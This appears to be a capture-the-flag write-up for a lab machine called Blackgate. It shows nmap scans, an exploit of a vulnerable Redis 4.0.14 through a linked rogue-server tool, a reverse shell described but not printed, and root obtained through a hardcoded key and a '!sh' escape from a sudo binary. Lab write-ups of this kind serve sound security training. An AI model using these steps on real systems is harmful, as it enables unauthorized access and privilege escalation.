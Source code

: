 # Blackgate

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.176
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 23:04 +08
Nmap scan report for 192.168.197.176
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
6379/tcp open  redis
```

Only Redis. We can do a detailed scan for this port.&#x20;

```
$ sudo nmap -p 6379 -sC -sV -O -T4 192.168.197.176                                 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 23:05 +08
Nmap scan report for 192.168.197.176
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.14
```

### Redis RCE

This version of Redis is vulnerable to the Redis Rogue Server exploit:

{% embed url="https://github.com/n0b0dyCN/redis-rogue-server" %}

<figure><img src="../../../.gitbook/assets/image (129) (3).png" alt=""><figcaption></figcaption></figure>

Getting a reverse shell via a bash one-liner is trivial:

<figure><img src="../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Redis-Status

We had some `sudo` privileges as this user:

```
prudence@blackgate:/tmp$ sudo -l
Matching Defaults entries for prudence on blackgate:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prudence may run the following commands on blackgate:
    (root) NOPASSWD: /usr/local/bin/redis-status
```

I did some basic enumeration of this binary, such as running `strings`:

```
prudence@blackgate:~$ strings /usr/local/bin/redis-status
/lib64/ld-linux-x86-64.so.2
gets
puts
printf
stderr
system
fwrite
strcmp
__libc_start_main
libc.so.6
GLIBC_2.2.5
__gmon_start__
H=X@@
[]A\A]A^A_
[*] Redis Uptime
Authorization Key: 
ClimbingParrotKickingDonkey321
```

There is a password within it. When we run the binary and supply the password, we get this 'terminal' thing:

<figure><img src="../../../.gitbook/assets/image (14) (2) (5).png" alt=""><figcaption></figcaption></figure>

This output looks a bit like `less`, so I tried to escape this limited shell with `!sh` and it worked.

<figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

Rooted!
